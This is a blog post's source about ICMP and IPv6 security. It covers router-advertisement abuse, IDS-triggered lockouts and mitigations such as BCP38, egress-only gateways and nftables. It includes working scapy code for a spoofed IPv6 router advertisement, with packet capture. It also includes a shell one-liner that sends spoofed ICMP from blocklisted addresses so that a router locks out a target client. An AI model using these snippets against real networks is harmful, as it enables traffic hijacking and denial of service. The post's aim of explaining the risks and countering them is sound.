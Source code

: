 +++
Title = "Should I enable ICMP? (Pt. 1)"
Date = "2023-01-15T23:20:20-0800"
Author = "Paige"
Description = "Some thoughts on my experiences and in response to shouldiblockicmp.com"
cover = "img/og.png"
+++

> Yes!

## hold up...

Awhile ago I read an article called [Should I block ICMP](http://shouldiblockicmp.com)? The sentiment is pretty much in line with my own which is that ICMP is entirely necesarry for a variety of reasons especially in IPv6. Unfortunately my experience tells me that ICMP presents a lot of security problems when left unchecked and it's mostly or entirely left unchecked everywhere I've seen it left on. This will be an attempt to analyze some of the problems and present some insight as to how to mitigate some of the problems.

## IPv6 ND_RA

I have been most interested in this one for awhile. Router advertisements are really useful, but the deployment of IPv6 and it's reception has met with strong resistance and a disjointed comprehension of the theory behind things like router advertisements. Here is an example of how to abuse it using the scapy framework in python:

{{< highlight python >}}
from scapy.all import *
from ipaddress import IPv6Network

sendp((lambda lladdr, llsrc, lldst, prefixlen, prefix: Ether(dst = lldst, src = llsrc) 
/ IPv6(src = lladdr) / ICMPv6ND_RA() / ICMPv6NDOptSrcLLAddr(lladdr = llsrc) / ICMPv6NDOptMTU() 
/ ICMPv6NDOptPrefixInfo(prefixlen=prefixlen, prefix=prefix) / ICMPv6NDOptRouteInfo(prf = 1, plen = 3, 
prefix = "2000::", rtlifetime = 0xffffffff))("fe80::4398:6d2e:c5ca:cb73", "c0:3c:59:ed:e3:1f", 
"9c:b6:d0:3f:72:96", 64, next(IPv6Network("fc00:1d13:f001::/48").subnets(64)).network_address), count = 16)
{{< / highlight >}}

To clarify, this is a router advertisement spoofed as another computer as the source, to a windows machine as it's destination. Here's a complete breakdown of the assumptions and what it does: 

- Is able to send a spoofed ethernet header (mac address spoofing)
- Is able to send unfiltered router advertisements to `ff02::1`
- It relies on the fact that the host that it's being sent to will automatically accept the address that is advertised
(SLAAC)
- The spoofed source mac address is: `c0:3c:59:ed:e3:1f`
- The spoofed layer 3 link local source address is: `fe80::4398:6d2e:c5ca:cb73`
- The destination mac address is: `9c:b6:d0:3f:72:96`
- The destination layer 3 address is: `ff02::1` (Link-Local multicast all-nodes address)
- Both clients are connected to a wireless access point that is connected to a UDM Pro
- The filtering characteristics of the wireless access point are unknown 
- The UDM pro is configured without filtering (no IGMP snooping or ND_RA filtering.)

From the sender's perspective, the pcap of what they're sending will look like this: 

```
 00:00:00.000664 c0:3c:59:ed:e3:1f > 9c:b6:d0:3f:72:96, ethertype IPv6 (0x86dd), length 142: (hlim 255, next-header ICMPv6 (58) payload length: 88) fe80::4398:6d2e:c5ca:cb73 > ff02::1: [icmp6 sum ok] ICMP6, router advertisement, length 88
    hop limit 0, Flags [none], pref high, router lifetime 1800s, reachable time 0ms, retrans timer 0ms
      source link-address option (1), length 8 (1): c0:3c:59:ed:e3:1f
        0x0000:  c03c 59ed e31f
      mtu option (5), length 8 (1):  1280
        0x0000:  0000 0000 0500
      prefix info option (3), length 32 (4): fc00:1d13:f001::/64, Flags [onlink, auto], valid time infinity, pref. time infinity
        0x0000:  40c0 ffff ffff ffff ffff 0000 0000 fc00
        0x0010:  1d13 f001 0000 0000 0000 0000 0000
      route info option (24), length 24 (3):  2000::/3, pref=high, lifetime=infinity
        0x0000:  0308 ffff ffff 2000 0000 0000 0000 0000
        0x0010:  0000 0000 0000
    0x0000:  9cb6 d03f 7296 c03c 59ed e31f 86dd 6000  ...?r..<Y.....`.
    0x0010:  0000 0058 3aff fe80 0000 0000 0000 4398  ...X:.........C.
    0x0020:  6d2e c5ca cb73 ff02 0000 0000 0000 0000  m....s..........
    0x0030:  0000 0000 0001 8600 a2a1 0008 0708 0000  ................
    0x0040:  0000 0000 0000 0101 c03c 59ed e31f 0501  .........<Y.....
    0x0050:  0000 0000 0500 0304 40c0 ffff ffff ffff  ........@.......
    0x0060:  ffff 0000 0000 fc00 1d13 f001 0000 0000  ................
    0x0070:  0000 0000 0000 1803 0308 ffff ffff 2000  ................
    0x0080:  0000 0000 0000 0000 0000 0000 0000       ..............
    ```
```

And the result is it 100% works. The recipient sees essentially the same. Modern Windows 10 and 11 machines with IPv6 enabled will have SLAAC enabled by default. The client has now
configured the delegated prefix `fc00:1d13:f001::/64` for itself and configured `fe80::4398:6d2e:c5ca:cb73` as the gateway for `2000::/3`.

- It might be worth noting that traffic destined for `ff02::1` generally specifies a destination MAC address of [33:33:00:00:00:01](https://en.wikipedia.org/wiki/Multicast_address#Ethernet)

## Thrown under the IDS

UDM pro has some nifty security options for detecting suspicious network activity and locking out specific client or completely locking down the network. It might be possible to influence this behavior by eliciting an ICMP reply from a target to a blacklisted address:

{{< highlight python >}}
curl -s http://rules.emergingthreats.net/blockrules/compromised-ips.txt | shuf | sudo python3 -c 'import sys; 
from scapy.all import *; (lambda z, target, smac, dmac: [sendp(Ether(dst = dmac, src = smac)/IP(src = x.strip(), 
dst = target)/ICMP(id = y - 10000, seq = y - 10000)) for x, y in zip(z, range(10000, 10000 + 
len(z)))])(sys.stdin.readlines(), "192.168.1.12", "ff:ff:ff:ff:ff:ff", "9c:b6:d0:3f:72:96")'
{{< / highlight >}}

- `192.168.1.12` has a MAC address of `9c:b6:d0:3f:72:96` and it is the target of this attack
- Each IP in the compromised-ips.txt is paired with a unique id number (up to 10000 or less if there are fewer than 10000 IP addresses), and a packet is sent for each IP to `192.168.1.12` for each of the addresses as the source address. 
- The client receives this and sends a reply to the spoofed address
- The router receives the reply sent to the malicious address and locks out the client
- This can also be accomplished with TCP SYN causing a client to ACK @ a spoofed address. The same is true for UDP.

## There's a lot to think about 
For internet routers, networks have to implement [BCP38 practices](https://www.ietf.org/rfc/bcp/bcp38.html) to prevent packet spoofing but is often overlooked or in-actionable due to [scalability problems](https://ripe58.ripe.net/content/presentations/bgp-scaling-considerations.pdf). To be fair, the problem arises when a user decides to send a packet with the target of an attack's IP address specified as the source address to a large number of hosts; a small UDP packet it sent with a spoofed address to a destination and the destination sends a much larger response UDP packet to the specified source address--amplification attacks. 

- Global Unicast Addresses (GUAs) in IPv6 are "globally scoped" addresses. 

ISP's cannot delegate a prefix smaller than a `/64`, but even if they did, a `/64` is an incomprehensible amount of address space (18,446,744,073,709,551,616 addresses.) It's actually wasteful to configure each host with a `/64`. Neighbor Discovery Protocol is essential 
to making use of the entire addressable range of a `/64`. Essentially, the router is delegated the `/64`, and leases addresses from this block to clients on a network using DHCPv6 and/or SLAAC. NDP is comprised of ICMPv6 type `133`, `134`, `135`, `136`, `137`. Types `133`, `135`, and `136` must be unrestricted to `fe80::/10` and to the `/64` itself which isn't known until it is delegated by the ISP so this presents a chicken and egg problem for creating firewall rules; unless you can specify [hop count / next hop criteria](https://wiki.nftables.org/wiki-nftables/index.php/Matching_routing_information) for filtering ICMPv6.

GUA addresses are internet routable addresses. This presents a problem for people in terms of adoption of IPv6 because in general people tend to think about security in terms of this world vs. the world. Consequently, the world poeple will create calls for no solution that doesn't solve the problem. I won't say that configuring a firewall on everything is a reasonable solution, but I'm not saying that it isn't either.

Amazon came up with a way to describe a solution to make IPv6 meet half way with the fundamental way that people think about networking security called [Egress-only Gateways](https://docs.aws.amazon.com/vpc/latest/userguide/egress-only-internet-gateway.html). It's not a concept that is unique to Amazon. I'm not aware of a way this can be accomplished with BGP, this is undoubtedly made possible using a stateful firewall which for a lot of people remains a [scalability problem](https://people.netfilter.org/kadlec/nftest.pdf).

The unfortunate truth is that it's [never going to not be a scalability problem](https://en.wikipedia.org/wiki/Time_complexity). But there's a lot you can do now, that you haven't always been able to do with stateful firewalls as I've outlined in my [presentation on NFTables](https://paige.bio/nftables_presentation) such as [Flowtables](https://wiki.nftables.org/wiki-nftables/index.php/Flowtables). Another fantastic advantage of NFTables is the flexibility of the language itself to better realize the complexities of stateful queuing and measuring traffic as well as dynamically making adjustments based on measured traffic. 

For [part 2](/posts/icmp_pt2/), I'd like to cover some of the lesser known aspects of ICMP. Things like admin-prohibited and what they should mean but also why it's not as simple as just letting it be a REJECT as well as ways you can counter abuse. This is a topic I've been wanting to cover for a long time, but it's going to take awhile. 
